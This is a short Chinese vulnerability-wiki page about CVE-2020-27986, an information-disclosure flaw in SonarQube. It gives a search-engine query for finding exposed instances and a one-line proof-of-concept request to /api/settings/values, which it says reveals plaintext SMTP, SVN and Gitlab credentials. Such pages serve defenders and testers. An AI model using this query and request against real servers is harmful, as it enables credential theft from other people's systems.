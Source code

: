 # SonarQube values 信息泄露漏洞 CVE-2020-27986

## 漏洞描述

SonarQube 某接口存在信息泄露漏洞，可以获取部分敏感信息

## 漏洞影响

<a-checkbox checked>SonarQube</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="sonarQube-代码管理"</a-checkbox></br>

## 漏洞复现

主页如下

![img](/assets/PeiQi-Wiki/img/image-20210627221618861.png)



漏洞POC

```plain
http://xxx.xxx.xxx.xxx/api/settings/values
```

![img](/assets/PeiQi-Wiki/img/image-20210627221628431.png)



可泄露的为：明文SMTP、SVN和Gitlab等敏感信息

![img](/assets/PeiQi-Wiki/img/image-20210627221640310.png)